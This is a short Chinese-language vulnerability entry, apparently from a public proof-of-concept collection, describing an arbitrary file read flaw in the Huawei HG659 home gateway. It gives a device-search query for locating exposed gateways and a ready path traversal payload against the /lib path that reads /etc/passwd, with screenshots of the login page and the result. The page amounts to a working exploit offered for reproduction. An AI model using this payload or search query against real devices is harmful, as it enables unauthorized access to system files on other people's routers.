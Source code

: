 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>Huawei HG659</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HUAWEI-Home-Gateway-HG659"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615141459903.png)



POC如下



```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210615141751249.png)

